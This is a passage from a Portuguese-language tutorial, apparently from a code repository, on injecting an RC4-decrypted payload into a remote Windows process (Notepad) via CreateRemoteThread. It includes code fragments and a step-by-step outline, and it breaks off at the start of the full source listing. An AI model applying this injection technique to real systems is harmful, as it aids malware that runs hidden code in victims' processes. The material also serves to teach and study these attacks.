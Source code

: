 `GetModuleHandleA`: Obtém o handle do módulo `kernel32.dll`, onde está localizada a função `CreateRemoteThread`.
`GetProcAddress`: Recupera o endereço da função `CreateRemoteThread` a partir do handle do módulo.

---
### **Criação da Thread Remota**
Com o endereço da função `CreateRemoteThread` em mãos, crio uma thread no processo remoto, passando o endereço onde o payload foi injetado:

```cpp
threadRemota = CriarThreadRemota(processoAlvo, NULL, (SIZE_T)0, (LPTHREAD_START_ROUTINE)enderecoRemoto, NULL, 0, NULL);
if (threadRemota == NULL)
    return 0;
```

Se a criação da thread for bem-sucedida, exibo uma mensagem indicando sucesso:

```cpp
std::wcout << L"[+] Thread remota criada com sucesso!" << std::endl;
```

---
### **Limpeza dos Recursos**

Por fim, faço a limpeza dos handles abertos:

```cpp
CloseHandle(threadRemota);
CloseHandle(processoAlvo);
```

Isso garante que não haja vazamento de recursos.

---
### Fluxo da Função Principal `(main)`

- **Carregar Funções Necessárias**: Carrega a função `NtOpenProcess`, que é fundamental para abrir o processo alvo.

- **Preparar o Payload**: Define o payload como um vetor de bytes. Este vetor deve conter o código que será injetado.

- **Decriptar o Payload**: O payload é decriptado usando `RC4DEC`.

- **Localizar o Processo**: Espera a entrada do usuário e chama `ObterHandleProcesso` para localizar o Notepad.

- **Injetar o Payload**: Chama a função `InjetarPayload`.

- **Criar uma Thread Remota**: Cria uma nova thread que executa o código injetado.

- **Fechamento de Handles**: Os handles abertos são fechados para liberar recursos do sistema.
## Código completo

```cpp
#include <windows.h>
#include <Tlhelp32.h>
#include <iostream>
#include <string>
#include <stdio.h>
#include <stdlib.h>

#pragma comment(lib, "OneCore.lib")

// link: https://learn.microsoft.com/en-us/windows/console/console-screen-buffers#character-attributes
void SetConsoleColor(WORD color) {
    HANDLE hConsole = GetStdHandle(STD_OUTPUT_HANDLE);
```